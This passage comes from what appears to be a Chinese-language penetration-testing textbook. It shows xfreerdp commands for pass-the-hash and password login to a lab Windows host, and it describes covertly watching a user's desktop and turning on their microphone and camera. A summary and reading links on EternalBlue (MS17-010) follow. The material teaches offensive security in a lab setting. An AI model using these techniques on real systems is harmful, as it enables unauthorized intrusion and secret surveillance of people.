xfreerdp -v:172.16.42.5 /u:Administrator /pth:aad3b435b51404eeaad3b435b51404ee:23900518f88d6ec5ae40e134fdbb1959 /d:LAB1 
```



如果我们知道密码，我们可以使用以下标志访问系统：

```
xfreerdp -v:172.16.42.5 /u:Administrator /p: 442Night! /d:LAB1  
```

等等，还有更多！

您不仅可以使用此应用程序访问远程桌面，而且通过使用 RDP 进入系统并设置远程协助，您可以使用此应用程序使用`/assistance:<password>`标志再次登录，现在您可以观看登录用户的桌面。小心你的鼠标，否则用户会知道你在那里。

通过使用音频和多媒体标志，攻击者可以打开远程系统上的麦克风和摄像头，并在毫无戒备的用户身上拉一个*偷窥汤姆*。当你可以远程访问笔记本电脑时，谁需要别致的间谍筏技术？笔记本电脑现在成了臭虫。（人们想知道我为什么在摄像机上贴着创可贴）。

# 总结

在本章中，您已经了解了如何使用已知漏洞访问系统，以及如何使用被盗凭证在机器之间横向移动。你已经了解了从国家安全局泄露的漏洞，以及它们是如何被使用的，以及其中一些漏洞今天在互联网上造成的破坏。

在下一章中，您将学习如何在只有普通用户权限的情况下，将权限从普通用户帐户提升到系统级访问权限。

# 进一步阅读

永恒蓝色：

*   [https://cvedetails.com/cve/CVE-2017-0143/](https://cvedetails.com/cve/CVE-2017-0143/)
*   [https://cvedetails.com/cve/CVE-2017-0144/](https://cvedetails.com/cve/CVE-2017-0144/)
*   [https://cvedetails.com/cve/CVE-2017-0145/](https://cvedetails.com/cve/CVE-2017-0145/)
*   [https://cvedetails.com/cve/CVE-2017-0146/](https://cvedetails.com/cve/CVE-2017-0146/)
*   [https://cvedetails.com/cve/CVE-2017-0147/](https://cvedetails.com/cve/CVE-2017-0147/)
*   [https://cvedetails.com/cve/CVE-2017-0148/](https://cvedetails.com/cve/CVE-2017-0148/)
*   [https://technet.microsoft.com/en-us/library/security/MS17-010](https://technet.microsoft.com/en-us/library/security/MS17-010)
*   [https://zerosum0x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html](https://zerosum0x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html)
*   [https://github.com/countercept/doublepulsar-detection-script](https://github.com/countercept/doublepulsar-detection-script)
*   [https://technet.microsoft.com/en-us/library/security/ms17-010.aspx](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx)
*   [https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)
*   [https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf](https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf)
*   [https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/](https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/)
*   [https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)**